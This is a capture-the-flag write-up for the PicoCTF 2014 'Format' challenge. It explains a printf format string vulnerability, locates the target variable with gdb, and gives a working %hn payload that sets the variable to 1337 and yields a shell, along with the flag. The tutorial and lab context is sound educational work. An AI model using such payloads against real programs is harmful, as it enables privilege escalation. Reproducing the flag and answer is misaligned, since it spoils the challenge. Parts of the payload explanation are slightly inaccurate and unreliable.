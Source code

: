 ## Format - 70 (Binary Exploitation)
####writeup by patil215
Created: 2014-11-08 12:25:57
Last modified: 2014-11-09 22:28:41

### Problem

This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at ```/home/format/``` on the shell server. The source can be found [here](https://picoctf.com/problem-static/binary/format/format.c).

### Hint

There is already a pointer to the variable on the stack! Also, %n may be useful!

## Answer

### Overview

Use a standard format string exploit to set the value of the ```secret``` variable to 1337.

### Details

The title of this problem and the description lead us to believe that our exploit needs to take advantage of the format string used in the problem - there's probably a vulnerability when it is used.

Let's take a look at the [source](https://picoctf.com/problem-static/binary/format/format.c). On line 15, we can find the mistake this programmer made:

```c
printf(argv[1]);
```

```printf``` should be taking in an additional argument. Normally, ```printf``` works by taking in a format string followed by variables to print (see [here](http://www.cplusplus.com/reference/cstdio/printf/) for more info). The problem is, this person only has printf printing the argument with no format string specified. This is something we can exploit - since printf can take any number of arguments, we can pass in our own format string like ```"%p %p %p"``` and the program will blindly print the next three addresses on the stack.

[This post](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html) is a great resource for introduction to this kind of exploit. Once you've read that,  we'll apply it to this program.

Let's now write our exploit. The hint tells us that there's a pointer to a variable on the stack that we can take advantage of.

Looking through the code, we see that ```secret``` is that variable. It is first initialized to zero:

```c
int secret = 0;
```

and then if the value of ```secret``` is 1337, we get a shell with full permissions that we can use to get our flag:

```c
if (secret == 1337){
    give_shell();
}
```

What we need to do is use the format string exploit to set the variable of secret to 1337. The first thing we need to do to accomplish this is figure out the memory address of ```secret``` so we know where to write to. The easiest way to do this is with [```gdb```](http://www.gnu.org/software/gdb/) (during the competition, this was available by default on the PicoCTF shell).

Let's run the program through ```gdb``` and find the value of secret. In the shell we type:

```zsh
pico89244@shell:~$ gdb format
Reading symbols from format...(no debugging symbols found)...done.
(gdb) p &secret
$1 = (<data variable, no debug info> *) 0x804a030 <secret>
```

Using ```p &secret``` gdb prints the memory address of secret, 0x804a030. The next thing we need to do is see where on the stack the memory address is when the program runs. So, we do:

```
./format "%p %p %p %p %p %p %p %p %p"
```

```%p``` causes the program to print out the memory address next on the stack, so doing this 9 times as above will print the first 9 memory addresses on the stack, giving us:

```
0xffffd7e4 0xffffd7f0 0xf7e4f39d 0xf7fc83c4 0xf7ffd000 0x804852b 0x804a030 0x8048520 (nil)pico8
```

We see 0x804a030 in the 7th spot - so we know that the address of secret is the 7th variable on the stack!

The introduction to format string exploits linked above told us most of what we needed to know to format our string. The ```%n``` format string lets us write "the number of characters written so far into the integer indicated by the pointer argument" - so if we create a string 1337 characters long (using ```%1337```) and then provide memory address pointing to secret, we can set the value of secret to 1337. We provide this memory address with ```x%7``` - this returns the 7th variable on the stack, the location of ```secret```. ```$(python -c``` allows us to pipe python output into the program, great since we have a long string of characters. ```$hn``` writes this input to the stack a few bytes at a time. Putting it all together we get:

```bash
./format "$(python -c 'import sys; sys.stdout.write("%1337x%7$hn")')"
```

Running this sets the value of ```secret``` to 1337, executing ```give_shell()``` in the source, so now we have access to the shell with full permissions! Typing ```cat flag.txt``` into this shell gives us our flag. Interestingly enough, this exploit works without having to use ```%n``` as the hint says.



### Flag

    who\_thought\_%n_was_a_good_idea?
